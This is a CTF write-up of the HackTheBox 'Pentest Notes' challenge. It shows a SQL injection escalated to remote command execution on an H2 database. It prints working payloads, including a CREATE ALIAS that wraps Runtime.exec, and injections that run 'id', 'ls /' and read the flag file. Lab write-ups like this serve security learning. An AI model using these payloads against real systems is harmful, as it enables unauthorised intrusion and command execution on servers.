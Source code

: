 ```yaml
---
title: Pentest Notes
tags:
  - HackTheBox
  - Challenge
  - Easy
  - SQLi
  - H2_Database
  - Command-Injection
---
```

![](Pasted%20image%2020241115171026.png)

I found the creds `user:123` in the source code. Analyzing the code I discovered a basic SQLi vulnerability:

```java
String query = String.format("Select * from notes where name ='%s' ", name);
```

If we put: `hello' OR 1=0 -- -` we've got it. I dumped all the tables, but didn't found anything, so I managed that might be something harder. Inspecting he source further I found that an H2 Java SQL database was in use:

```shell
spring.application.name=PentestNotes
spring.datasource.url=jdbc:h2:mem:notedb
spring.datasource.driverClassName=org.h2.Driver
spring.jpa.database-platform=org.hibernate.dialect.H2Dialect
spring.jpa.defer-datasource-initialization=true
spring.http.encoding.charset=UTF-8
spring.mvc.view.charset=UTF-8
```

So I searched for "*H2 database command injection through sqli*", and found [this article](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html)
- I've created a note about it :D

Basically, if I capture the petition with burp and **Do intercept** the petition I can modify the POST parameter and inject there an ALIAS:

- First I create the alias:

```sql
SQL Injection' or 1=0; CREATE ALIAS FUCKED AS '  
String execve(String cmd) throws java.io.IOException {  
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");  
    return s.hasNext() ? s.next() : "";  
}';-- -
```

- Then I call it by inserting a command in the notes table (I spend two days to manage this out xd):

```shell
SQL Injection' OR 1=0; INSERT INTO notes (name, note) VALUES ('Command Output', FUCKED('id')); --
```

- Then I performed a UNION SQLi to check if the command output was written to the table:

```shell
SQL Injection' OR 1=0 UNION SELECT * from notes -- -
```

![](Pasted%20image%2020241115172002.png)

> *BINGO, BANGO, BONGO!* We got this!

So we can check the `/` directory for the flag (it name is random):

![](Pasted%20image%2020241115172115.png)

```shell
SQL Injection' OR 1=0; INSERT INTO notes (name, note) VALUES ('Command Output', FUCKED('ls /')); --
```

![](Pasted%20image%2020241115172158.png)

So in my case, the flag is called `JN8fe3XRqTYK_flag.txt`, so I cat it:

```shell
SQL Injection' OR 1=0; INSERT INTO notes (name, note) VALUES ('Command Output', FUCKED('strings /JN8fe3XRqTYK_flag.txt')); -- -
```

> And got the flag!

![](Pasted%20image%2020241115172319.png)

==Challenge completed!==
